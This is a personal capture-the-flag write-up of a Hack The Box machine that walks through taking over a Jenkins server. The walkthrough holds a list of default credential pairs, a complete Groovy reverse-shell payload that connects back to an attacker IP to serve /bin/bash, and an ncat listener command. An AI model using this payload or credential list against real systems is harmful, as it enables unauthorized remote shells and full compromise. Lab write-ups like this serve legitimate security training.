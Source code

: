 # Jenkins and Groovy Script Payload

Note: This cookbook details the exploitation of a Jenkins service, with a particular focus on Groovy scripts, as encountered on an HTB machine.

From the official write-up (prepared by 0ne-nine9 and ilinor): *Jenkins is a free and open-source automation server. It helps automate the parts of software development related to building, testing, and deploying, facilitating continuous integration and delivery. It is a server-based system.*

After the initial enumeration with Nmap, we opened our browser to explore the service more easily. Navigating to the target's IP address through the URL search bar initially yielded an error, as we needed to specify the port on which the service was running. The scan showed that the service wasn't running on port 80, which is what the browser would expect if only the IP address was entered. However, by specifying the IP combination, we accessed the service without any issues.

And now back to the official write-up: *The potential approach we can explore against this login screen is to try logging in using commonly used weak credential pairs. This relies on the possibility that server administrators might have overlooked configuring the Jenkins service securely. Upon searching the web for common weak credential pairs, we get the following result:*

```
admin:password
admin:admin
root:root
root:password
admin:admin1
admin:password1
root:password1
```

After attempting multiple combinations from the list above, we managed to log-in and look around the administrative panel.

*At the bottom right corner of the page, the current version of the Jenkins service is displayed. This is one of the first clues an attacker will check - specifically if the currently installed version has any known CVE's or attack methods published on the Internet. Unfortunately, this is not our case. The current version is reported as secure. As an alternative, we stumble across two vital pieces of information while searching for Jenkins exposures:*

- [A handbook including multiple ways of gaining Jenkins RCE's](https://cloud.hacktricks.xyz/pentesting-ci-cd/jenkins-security)

- [A repository similar to the above, including links to scripts and tools](https://github.com/gquere/pwn_jenkins)

*In both links provided above the Jenkins Script Console is mentioned, where what is known as Groovy script can be written and run arbitrarily. To access it, you need to navigate to the left menu, to ```Manage Jenkins > Script Console```, or by visiting the following URL directly from your browser URL search bar: ```http://{target_IP}:8080/script```*

*The objective of our Groovy script implementation as explained in the two documents linked before will be to receive a reverse shell connection from the target. Reverse, in this case, meaning the target will initialize the connection request back to our attacker VM, with simplicity in implementation and a better chance of firewall evasion being the main two reasons. Attackers who successfully exploit a remote command execution vulnerability can use a reverse shell to obtain an interactive shell session on the target machine and continue their attack.*

The correct payload we are going to use in this example is below:

```
String host = "10.10.14.210";
int port = 8000;
String cmd = "/bin/bash";
Process p = new ProcessBuilder(cmd).redirectErrorStream(true).start();
Socket s = new Socket(host, port);
InputStream pi = p.getInputStream(), pe = p.getErrorStream(), si = s.getInputStream();
OutputStream po = p.getOutputStream(), so = s.getOutputStream();
while(!s.isClosed()) {
    while(pi.available() > 0) so.write(pi.read());
    while(pe.available() > 0) so.write(pe.read());
    while(si.available() > 0) po.write(si.read());
    so.flush();
    po.flush();
    Thread.sleep(50);
    try {
        p.exitValue();
        break;
    } catch (Exception e) {}
}
p.destroy();
s.close();
```

Note: the official write-up introduced a small issue in the first line, which was ```String host="{your_IP}";```. In Groovy, strings should be defined with double quotes without the curly braces ```{}``` for variable assignment unless we’re doing interpolation.

And now just a few words about the Groovy payload we have used:

- Defining Variables: obviously, we start by defining the ```host```, ```port```, and ```cmd``` variables. The ```host``` is our IP address, ```port``` is where we’re listening for the connection, and ```cmd``` is the command to execute, in this case, ```/bin/bash```.

- Starting the Process: we use ```ProcessBuilder``` to start a new process (```p```) that runs the ```/bin/bash``` command. ```redirectErrorStream(true)``` merges the standard error into the standard output, so everything goes through the same stream.

- Establishing a Connection: a new ```Socket``` object (```s```) is created to connect to our specified host and port. This socket represents the connection between the target machine and our listener.

- I/O Streams: we then set up input (```pi```, ```pe```, ```si```) and output (```po```, ```so```) streams. ```pi``` and ```pe``` come from the process (```p```), and ```si``` comes from the socket (```s```). ```po``` and ```so``` represent the output streams to the process and the socket, respectively.

- Data Transfer Loop: this loop continuously transfers data between the process and our listener. It reads any available data from the process’s output (```pi```) and error streams (```pe```) and sends it to our listener via ```so```. It also reads data from our listener (```si```) and sends it to the process’s input (```po```).

- Flush and Sleep: the streams are flushed to ensure data is sent immediately, and the thread sleeps for 50 milliseconds to avoid overwhelming the connection.

- Exit Check: the script checks if the process has exited. If it has, the loop breaks, ending the connection.

- Cleanup: finally, the process and socket are closed to clean up resources.

Basic syntax:

- Variables are defined using ```String```, ```int```, etc., followed by the variable name and value.

- Method calls like new ```ProcessBuilder(cmd).start()``` create and start new objects or processes.

- Input/Output Streams are used for reading from and writing to different sources, like processes or sockets.

- Loops control the flow of execution, repeatedly performing actions until a condition is met.

Also, here is something I have noticed about the loops used in this payload:

- Main Loop (Primary Condition): The main loop ```while(!s.isClosed())``` continues to run as long as the socket connection remains open. This loop is the central control structure of the payload. As long as the socket is not closed, the script keeps executing, handling the input/output streams.

- Nested Loops (Conditional Sub-loops): Inside this main loop, we have several while loops that are responsible for reading and writing data between the process (```/bin/bash``` command) and the socket (the connection to your machine). These sub-loops check if there's data available to read (```pi.available() > 0```, ```pe.available() > 0```, ```si.available() > 0```). When data is present, it gets processed and transferred to the appropriate output stream.

- Controlled Execution: The entire structure ensures that data flows smoothly between the process and our listener as long as the socket remains open. If the process (```p```) exits, the loop breaks, terminating the payload execution. The final cleanup with ```p.destroy()``` and ```s.close()``` ensures resources are properly released, preventing any potential issues like resource leaks.

To conclude, this design indeed hinges on a primary condition (the open socket), and once that’s met, the payload unfolds in a controlled manner through its nested loops. Each part of the code depends on the previous steps being successful—this cascading flow ensures the reverse shell functions correctly as long as the main condition (the open socket) is maintained. This structure appears to be common in scripts that manage ongoing connections, where continuous data exchange needs to be handled carefully and conditionally.

After this digression here's what the official write-up has to say about the payload:

*The rest of the script will instruct the target to create a ```cmd``` process which will initialize a connection request to the provided ```host``` and ```port``` (us, in this case). Our listener script will be running on the specified port and catch the connection request from the target, successfully forming a reverse shell between the target and attacker hosts. On our side, this will look like a new connection is received and that we can now type in the target host's terminal. This will not be visible on the target's side unless they are actively monitoring the network activity of their running processes or the outbound connections from their ports.*

*Before running the command pasted in the Jenkins Script Console, we need to make sure our listener script is up and running on the same port as specified in the command above, for example ```int port=8000```. To achieve this, we will use a tool called ```netcat``` or ```nc``` for short.*

Note: I am always preferring ncat over netcat. On modern pentesting tasks, ncat is usually the better choice due to its advanced features, security enhancements, and active maintenance. However, the basic syntax for ncat is very similar to netcat. Here is the command for setting up our listener:

```
ncat -lvnp 8000
```

*Now that our listener is turned on, we can execute the payload by clicking the Run button in the Jenkins Script Console.*

*Next, we can try to interact with the shell by typing in the ```whoami``` and ```id``` commands. These commands help verify our permission level on the target system. From the output, we can quickly determine that we rest at the highest level of privilege. We have command execution. Navigate to the ```/root``` directory on the target and read the flag.*

This example is now concluded.
